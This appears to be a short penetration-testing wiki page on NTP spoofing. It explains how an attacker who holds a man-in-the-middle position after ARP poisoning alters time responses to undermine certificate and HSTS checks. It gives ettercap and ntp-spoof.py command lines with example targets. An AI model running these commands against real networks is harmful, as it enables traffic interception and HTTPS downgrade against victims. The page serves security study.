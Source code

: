 # 🟨 NTP Spoofing

Distributing accurate time is a vital part of sustaining network infrastructure. It’s also a critical element of network security, both when it comes to the expiry dates on certificates and timestamped system logs used for troubleshooting.

{% hint style="info" %}
NTP Spoofing is hard to detect and the only mitigation is NTP encryption or synchronizing network time with GPS, so this type of attack is not as obvious as ARP spoofing or other types of spoofing for that matter.
{% endhint %}

#### <mark style="color:green;">NTP Spoofing is done after ARP spoofing and becoming the man in the middle</mark>

#### <mark style="color:green;">This attack can trick the victim systems to think that the web certificates or HSTS records are expired and thus they wont trust the old records anymore, in this case the attacker can run MitM attacks such as HTTPS downgrade and HSTS bypass more successfully.</mark>

{% embed url="https://github.com/crazyarashi/ntp-spoof" %}

A scapy script for spoofing NTP responses with an MITM attack

1. ARP-Cache-Poisons the target and the gateway
2. Positions your machine between target and gateway in MITM attack
3. Listens for NTP-responses from gateway to target
4. Modifies the NTP-timestamps

#### Run ARP Spoof

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

#### Run the script:

```
sudo ./ntp-spoof.py -i [interface] -t [target ip] -g [gateway ip] -d [date-time to spoof]

# example:
sudo ./ntp-spoof.py -i enp0s25 -t 192.168.1.42 -g 192.168.1.1 -d 13:37-31.12.1983
```
